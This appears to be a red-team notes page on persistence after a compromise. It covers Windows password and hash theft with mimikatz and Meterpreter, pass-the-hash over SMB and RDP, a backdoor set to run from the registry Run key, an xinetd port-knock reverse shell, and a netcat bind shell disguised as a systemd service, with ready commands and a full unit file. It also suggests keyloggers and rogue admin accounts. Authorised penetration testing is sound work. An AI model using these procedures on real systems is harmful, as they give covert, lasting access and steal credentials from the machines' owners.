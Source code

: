 # Methods of Persistence
1) [Passwords](#Passwords)
   1) [Pass the Hash](#Pass-the-Hash)
   2) Crack the Hash
2) [Backdoor](#Backdoor)
3) [New User](#New-User)
4) [DLL Preloading / DLL Hijacking](#DLL-Preloading)

# Passwords
1) [Get Windows passwords with mimikatz](../../Tools/Credentials_Cryptography/mimikatz/README.md)
2) [Get Windows passwords and hashes with Meterpreter](../../Tools/Metasploit/README.md#Get-Windows-Credentials).
3) [Get SMB Hashes with Meterpreter](../../Tools/Metasploit/README.md#Capture-SMB-Hashes).
4) [Use Windows Credentials Editor](../../Tools/Credentials_Cryptography/WCE/README.md)

### Pass the Hash
1) [Use Meterpreter SMB module and specify SMBPass as the capture hash](../../Tools/Metasploit/README.md#Establish-Reverse-Shell-with-SMB).
2) RDP with password or pass the hash.
   1) Check if RDP is enable by attempting a connection.  Do this before enabling RDP to know to disable RDP, when done with the engagement.
   2) Enable RDP with [Meterpreter](../../Tools/Metasploit/README.md#Enable-RDP) or [Windows](../../Tools/Shells/Windows/CMD/README.md#Start-Service).
   3) [Add user to group "Remote Desktop Users"](../../Tools/Shells/Windows/CMD/README.md#Add-User-to-a-Local-Group).
   4) [Pass the Hash over RDP](../../Tools/RDP/freerdp/README.md#Pass-The-Hash).

    [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://blog.harmj0y.net/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

# Backdoor
##### Steps
1) Upload backdoor to victim.
2) Execute at prefixed times.
3) Automatically run on boot.

##### Methods
1) [Meterpreter](../../Tools/Metasploit/README.md#Persistence)
2) Manually from Meterpreter
   1) Upload payload created with msfvenom, Veil, BDF, etc. ```meterpreter > upload /root/backdoor.exe C:\\Windows\```
   2) Edit Windows Registry ```meterpreter > reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -d "C:\Windows\backdoor.exe" -v MyBackdoorName```

# New User
1) [Add user](../../Tools/Shells/Windows/CMD/README.md#Add-User).
2) [Add user to group "Administrators"](../../Tools/Shells/Windows/CMD/README.md#Add-User-to-a-Local-Group).

# [DLL Preloading](../DLL_Preloading/README.md)


# Xinetd UDP Portknock Backdoor
##### [Step 1 - On Target, create xinetd service](https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56)
[Local File](../../Tools/Shells/Persistence/xinetd/xinetd_server.sh)

It requires that netcat is on the target, in the /bin directory.  It copies netcat to file /bin/services.udp.
##### Step 2 - Start netcat listener on Attack machine
```bash
nc -lnvp <Port #>
```
##### Step 3 - Send a single UDP packet to target, "knocking," and causing the target to establish a reverse shell.
```bash
hping3 -2 -c 1 <Target IP Address> -p 65534
```

### Portknocking References
[Port knocking](https://en.wikipedia.org/wiki/Port_knocking)

# Systemd Netcat Bind Shell
##### Step 1 - On Target, copy netcat to a new file, in /lib/systemd directory.
```bash
cp /bin/nc /lib/systemd/systemd-service
```
##### Step 2 - On Target, create file /lib/systemd/system/systemd-service with following contents
[systemd-service](../../Tools/Shells/Persistence/Systemd/systemd-service)
```bash
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```
##### Step 3 - On Target, enable & start service
```bash
systemctl enable systemd.service
systemctl start systemd.service
```
##### Step 4 - Confirm that port is listening on the target
```bash
netstat -auntp | grep 56825
```
##### [Step 5 - From Attack machine, establish shell (Note Port # 56825)](../../Tools/Shells/Bind/README.md#Netcat-Bind-Shell)

# Meterpreter - Windows
1) [Check process ID](../../Tools/Metasploit/README.md#Get-Processes).
2) Migrate to SvcHost.exe [by Process ID](../../Tools/Metasploit/README.md#Migrate-to-Another-Process-ID) or [by Process name](../../Tools/Metasploit/README.md#Migrate-to-Another-Process-Name).
3) [Retrieve password hashes from victim](../../Tools/Metasploit/README.md#Migrate-to-Another-Process-ID) or [by Process name](../../Tools/Metasploit/README.md#Get-Windows-Credentials).
4) [Pass-the-Hash with psexec](../../Tools/Metasploit/README.md#Establish-Reverse-Shell-with-SMB).
5) [If psexec fails due to STATUS_ACCESS_DENIED, update the registry on the target](../../Tools/Metasploit/README.md#Update-Registry-to-Allow-SMB-Access).
6) If user changes password, we will lose access.
   1) Install keylogger.
   2) Add new user to machine. 
      1) Check if RDP is enable by attempting a connection.  Do this before enabling RDP to know to disable RDP, when done with the engagement.
      2) Enable RDP with [Meterpreter](../../Tools/Metasploit/README.md#Enable-RDP-and-Add-User). 
7) [Create backdoor](../../Tools/Metasploit/README.md#Persistence). 